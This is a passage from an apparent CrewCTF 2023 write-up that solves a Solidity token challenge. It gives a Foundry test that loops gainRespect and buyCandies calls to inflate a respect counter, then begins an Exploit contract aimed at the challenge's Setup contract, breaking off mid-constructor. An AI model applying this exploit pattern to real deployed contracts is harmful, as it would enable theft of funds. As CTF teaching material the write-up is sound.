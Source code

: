 ```

    function testExploit()public{
        _crewToken.mint(); // Mint 1 crew token
        _crewToken.approve(address(_fancyStore),1);

        _fancyStore.verification(); // Mint 10 candyTokens

        // Gain respect
        _candyToken.approve(address(_localGang),100); // Approve localGang to spend candyTokens on our behalf
        _localGang.gainRespect(5); // Mint 5 respect tokens.

        // Buy candies
        _respectToken.approve(address(_fancyStore),100); // Approve fancyStore to spend respectTokens of our behalf
        _fancyStore.buyCandies(5); // Increase respectCount[msg.sender] by 5 and mint 5 candyTokens.

        for(uint256 i=0;i<10;i++){
            _localGang.gainRespect(5);
            _fancyStore.buyCandies(5);
        }

        assert(_fancyStore.respectCount(address(this))>50);
        console.log(_setup.isSolved());
    }

}

```
Let's run this exploit:

![](/images/ctfs/crewctf23/crewctf-web32.png)

Great! The exploit is functioning smoothly, which means it's time to retrieve the flag. Now, let's proceed with modifying our test exploit:
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "../src/Setup.sol";
import "../src/candyToken.sol";
import "../src/crewToken.sol";
import "../src/respectToken.sol";
import "../src/fancyStore.sol";
import "../src/localGang.sol";

contract Exploit{
    Setup _setup;
    crewToken _crewToken;
    candyToken _candyToken;
    respectToken _respectToken;
    fancyStore _fancyStore;
    localGang _localGang;


    constructor(){
        _setup =  Setup(<address_of_your_setup_contract>);
        _crewToken = _setup.CREW();
        _candyToken = _setup.CANDY();
        _respectToken = _setup.RESPECT();
        _fancyStore = _setup.STORE();
        _localGang = _setup.GANG();
```